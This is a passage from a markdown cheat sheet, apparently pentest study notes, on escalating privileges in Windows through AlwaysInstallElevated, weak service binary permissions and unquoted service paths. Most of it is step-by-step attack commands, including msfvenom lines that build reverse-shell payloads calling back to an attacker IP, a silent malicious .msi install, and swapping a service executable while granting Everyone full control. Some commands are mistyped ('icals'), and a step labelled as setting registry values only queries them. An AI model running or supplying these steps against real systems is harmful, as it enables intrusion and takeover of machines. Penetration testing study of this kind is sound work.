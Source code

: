 ### Run a scheduled task (not always possible)
    schtasks /run /tn <TASK_NAME>

## AlwaysInstallElevated
Need to set 2 registry values to always install .msi with a high priviledged account, then install a malicious .msi
### Set the registry values
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
### Generate the malicious .msi with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<LOCAL_PORT> -f msi -o malicious.msi
### Execute the .msi on the windows machine 
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    
## Windows Services
### Check the apphostsvc service configuration
    sc qc <SERVICE>
### Check the services configurations 
HKLM\SYSTEM\CurrentControlSet\Services\ <br>
Look for a Discretionary Access Control List (DACL) in the "Security" subkey, we'd like to change it but only admin can<br>
### Insecure Permissions on Service Executable
If the executable of the service is modified by anyone, we gan replace it by a malicious one. <br>
#### Step by Step
##### Find the executable of the vulnarable service
    sc qc <SERVICE>
##### Get the permissions of the executable
    icacls <SERVICE_EXECUTABLE_PATH>
If Modifiable by us: <br>
##### Generate a malicious exe-service payload with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe-service -o rev-svc.exe
##### Change the executable by our executable
    cd <DIRECTORY_OF_THE_EXECUTABLE>
    move <SERVICE.EXE> <SERVICE.EXE.BKP>
    move <MALICIOUS.EXE> <SERVICE.EXE>
    icals <SERVICE.EXE> /grant Everyone:F
##### Restart the service (or wait for it to restart on its own)
    sc stop <SERVICE>
    sc start <SERVICE>
### Unquoted Service Paths    
Force a service into running arbitrary executables <br>
If the BINARY_PATH_NAME isn't quoted and contains spaces, it can be vulnerable. <br>
If it is: <C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe> without quote, the Service Control Manage(SCM) will try to execute <C:\MyPrograms\Disk.exe> then <C:\MyPrograms\Disk Sorter.exe> and then <C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe>. <br>
If we can create a file with path <C:\MyPrograms\Disk.exe> or <C:\MyPrograms\Disk Sorter.exe>, the SMC will execute it instead. <br>
